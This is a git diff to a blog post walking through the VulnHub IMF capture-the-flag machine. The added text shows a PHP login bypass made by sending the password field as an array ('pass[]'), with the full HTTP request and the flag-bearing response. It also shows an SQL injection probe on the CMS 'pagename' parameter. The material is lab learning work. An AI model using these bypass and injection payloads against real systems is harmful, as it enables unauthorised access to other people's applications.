

Before and after one commit to educationnull/thejaspher.github.io, a Jekyll site: the page built from _posts/2016-11-09-vulnhub-imf.md, in a window 1280 px wide and 1400 px high, scrolled down 3998 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4628 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2016-11-09-vulnhub-imf.md

````diff
--- a/_posts/2016-11-09-vulnhub-imf.md
+++ b/_posts/2016-11-09-vulnhub-imf.md
@@ -104,12 +104,11 @@ echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 --decode
 flag2{aW1mYWRtaW5pc3RyYXRvcg==}
 
 echo aW1mYWRtaW5pc3RyYXRvcg== | base64 --decode
-imfadministratorbase64
+imfadministrator
 ```
 
 Okay, back to the browser with our findings:
 
-- http://172.16.0.76/imfadministratorbase64 - 404
 - http://172.16.0.76/imfadministrator - 200 OK
 
 Awesome, found the admin login area.
@@ -185,3 +184,69 @@ or
 $query="select user from users where user='$user'";
 // some php login to check if $_POST['pass'] == "HardC0dedP@ss"
 ```
+
+## Failure
+
+After many wasted hours, I needed help. I found out that I was close, but an login bypass via sql injection was the wrong path to take. I needed to modify the password POST parameter to confuse validation. In Burp Suite, I modified the html field `pass` to `pass[]`.
+
+Request:
+
+```
+POST /imfadministrator/index.php?id=1 HTTP/1.1
+Host: 192.168.100.76
+User-Agent: Mozilla/5.0 (Hydra)
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+Referer: http://192.168.100.76/imfadministrator/index.php?id=1
+Cookie: PHPSESSID=b9d9u2tlf9f6haipank2vvj136
+Connection: close
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 25
+
+user=rmichaels&pass[]=aaa
+```
+
+Response:
+
+```
+HTTP/1.1 200 OK
+Date: Fri, 11 Nov 2016 23:19:29 GMT
+Server: Apache/2.4.18 (Ubuntu)
+Expires: Thu, 19 Nov 1981 08:52:00 GMT
+Cache-Control: no-store, no-cache, must-revalidate
+Pragma: no-cache
+Vary: Accept-Encoding
+Content-Length: 100
+Connection: close
+Content-Type: text/html; charset=UTF-8
+
+flag3{Y29udGludWVUT2Ntcw==}<br />Welcome, rmichaels<br /><a href='cms.php?pagename=home'>IMF CMS</a>
+```
+
+Awesome. Now that I'm in, more recon. FYI, the decoded base64 in the flag is `continueTOcms` so lets do that.
+
+## Inside the CMS
+
+The urls that are available in the CMS:
+
+```html
+<a href='cms.php?pagename=home'>Home</a> |
+<a href='cms.php?pagename=upload'>Upload Report</a> |
+<a href='cms.php?pagename=disavowlist'>Disavowed list</a> |
+```
+
+Few things I noted:
+
+- The way that the urls are structured makes it seem like the backend could be vulnerable to an LFI or SQLi exploit.
+- The upload page looks inactive.
+- The disavowlist seems interesting, maybe next flag is to view this page uncensored?
+
+Messing with the url by adding an apostraphe to the pagename input gives me this:
+
+```
+http://172.16.1.76/imfadministrator/cms.php?pagename=home':
+Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29
+```
+
+I'm tempted to use sqlmap, but will try to do this by hand.
````
